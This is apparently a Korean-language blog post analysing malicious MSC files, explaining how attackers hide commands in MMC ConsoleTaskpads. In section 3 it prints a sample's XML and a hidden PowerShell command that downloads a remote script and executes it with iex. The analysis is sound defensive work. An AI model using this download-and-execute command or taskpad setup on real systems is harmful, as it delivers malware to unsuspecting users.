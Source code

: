 ```yaml
---
title: '📑 "MSC", Malware Analysis Guide'
date: 2024-12-09 21:00:00 +0900
categories: [Malware Analysis Guide]
tags: [malware_analysis_guide, msc]
render_with_liquid: false
---
```




MSC(Microsoft System Center) 파일은 시스템 관리 및 모니터링에 사용되는 XML 형식의 파일입니다. Microsoft Management Console(mmc.exe)를 사용해 열 수 있으며, 다양한 관리 도구의 저장 및 실행에 사용됩니다. 공격자는 해당 파일이 시스템과 관련된 파일에 사용되는 형식임을 악용하여 사용자가 정상 파일로 착각하도록 유도합니다. 



## <mark>1. MSC 파일</mark>

MSC 파일은 일반적으로 시스템 관리 및 모니터링에 사용되는 파일입니다. 공격자는 해당 사실을 악용하여 사용자가 정상 파일로 착각하도록 유도합니다.

<img src="../images/2024-12-09-MSC-Malware-Analysis/image-20241209220102068.png" alt="image-20241209220102068" style="zoom: 80%;" />

파일을 오픈하게 되면, Microsoft Management Console(mmc.exe)에 의해 실행됩니다.

<img src="../images/2024-12-09-MSC-Malware-Analysis/IMG-msc 분석-20240912113120127-1733738421240-1.png" alt="IMG-msc 분석-20240912113120127" style="zoom: 80%;" />

XML 형식을 사용하기 때문에 텍스트 에디터를 사용하여 파일 내부를 확인할 수 있습니다.

<img src="../images/2024-12-09-MSC-Malware-Analysis/IMG-msc 분석-20240912113201295-1733738425481-3.png" alt="IMG-msc 분석-20240912113201295" style="zoom:67%;" />



## <mark>2. MMC Console Taskpad</mark>

MSC 파일은 MMC Console Taskpad 기능을 사용하여 내부에 명령어를 삽입할 수 있습니다. 공격자는 해당 기능을 사용하여, 사용자가 특정 버튼을 클릭해 악성 스크립트를 실행하도록 유도합니다.

> [!NOTE]   
> 🔗 [MMC Console Taskpad](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/mmc/mmc-console-taskpad)

![IMG-msc 분석-20240912115210945](../images/2024-12-09-MSC-Malware-Analysis/IMG-msc 분석-20240912115210945-1733738436425-5.png)

## <mark>3. 악성 MSC 샘플 분석</mark>

### ▪ <u>파일 내부 확인</u>

MSC 파일은 XML 형식을 사용하기 때문에 텍스트 에디터를 사용해 내부를 확인할 수 있습니다. ConsoleTaskPads 기능이 존재하는지, 존재한다면 어떤 명령어를 사용하고 있는지 확인합니다.

<img src="../images/2024-12-09-MSC-Malware-Analysis/IMG-msc 분석-20240912113555178-1733738451950-7.png" alt="IMG-msc 분석-20240912113555178" style="zoom: 67%;" />

샘플의 경우, ConsoleTaskpads에 Powershell 명령어가 포함되어 있는 것이 확인되었습니다.

```xml
  <ConsoleTaskpads>
    <ConsoleTaskpad ListSize="Medium" IsNodeSpecific="true" ReplacesDefaultView="true" NoResults="true" DescriptionsAsText="true" NodeType="{C96401CE-0E17-11D3-885B-00C04F72C717}" ID="{656F3A6A-1A63-4FC4-9C9B-4B75AF6DF3A3}">
      <String Name="Name" ID="4"/>
      <String Name="Description" Value=""/>
      <String Name="Tooltip" Value=""/>
      <Tasks>
        <Task Type="CommandLine" Command="powershell.exe">
          <String Name="Name" ID="5"/>
          <String Name="Description" ID="11"/>
          <Symbol>
            <Image Name="Small" BinaryRefIndex="6"/>
            <Image Name="Large" BinaryRefIndex="7"/>
          </Symbol>
          <CommandLine Directory="" WindowState="Minimized" Params="-WindowStyle Hidden -Command iex (iwr -Uri 'https://oshi.at/PTgX/jIML.txt' -UseBasicParsing)"/>
        </Task>
      </Tasks>
      <BookMark Name="TargetNode" NodeID="1"/>
    </ConsoleTaskpad>
  </ConsoleTaskpads>
```

### ▪ <u>명령어 분석</u>

Powershell 스크립트 파일로 추정되는 jIML.txt 파일을 다운로드 받아 파일 내부에 있는 코드를 실행하는 명령어가 포함되어 있는 것이 확인되었습니다.

```powershell
powershell.exe -WindowStyle Hidden -Command iex (iwr -Uri 'https://oshi.at/PTgX/jIML.txt' -UseBasicParsing)
```


